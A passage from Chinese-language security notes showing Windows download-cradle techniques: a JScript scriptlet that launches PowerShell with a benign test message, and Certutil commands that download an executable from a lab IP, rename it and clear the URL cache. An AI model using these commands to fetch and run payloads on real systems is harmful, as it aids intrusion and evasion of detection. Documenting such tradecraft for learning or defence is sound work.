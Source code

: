 ```xml

		]]>
	</script>
</registration>

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run("powershell -c \"write-host -ForegroundColor Cyan $(Get-Date -Format s) 'Download Cradle test success!';Read-Host -Prompt 'Press Enter to continue'\"");
	}

]]>
</script>

</scriptlet>

```

![image-20231205000133728](http://cdn.ayusummer233.top/DailyNotes/202312050001127.png)

---

#### Certutil

> [命令行终端下载指令大全 | DeepinWiki](https://wiki.deepin.org/zh/05_HOW-TO/07_系统技巧分享/命令行终端下载指令大全)

`Certutil` 是 Windows 操作系统中的一个命令行工具，用于管理和操作证书、证书存储区、以及其他与证书相关的任务。

`Certutil` 是 Windows 自带的工具，提供了广泛的功能来支持管理员和用户管理证书服务和公钥基础设施 (PKI) 相关任务。

> [命令行终端下载指令大全 | DeepinWiki](https://wiki.deepin.org/zh/05_HOW-TO/07_系统技巧分享/命令行终端下载指令大全) 中指出如下利用 Certutil 下载文件的命令可以应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2
>
> PS: 实际测试上在 Win10 上也可以使用
>
> ![image-20240531142840794](http://cdn.ayusummer233.top/DailyNotes/202405311428317.png)

```powershell
# 从 http://192.168.3.1/test.exe 下载文件，并将其保存到当前目录下，文件名为 file.exe。如果文件已经存在，则会被覆盖
certutil -urlcache -split -f http://192.168.3.1/test.exe file.exe

# 清除 URL 缓存中的所有条目
certutil -urlcache * delete

# 此条命令，会将原文件下载成为临时 bin 文件，把名字改回来一样可以正常运行
certutil -verifyctl -split -f -split http://192.168.3.1/test.exe
## 查看当前目录下的文件找到具体 bin 文件的名称
Get-ChildItem
## 将bin文件重命名为exe文件
Rename-Item -Path [xxx].bin -NewName test.exe
```
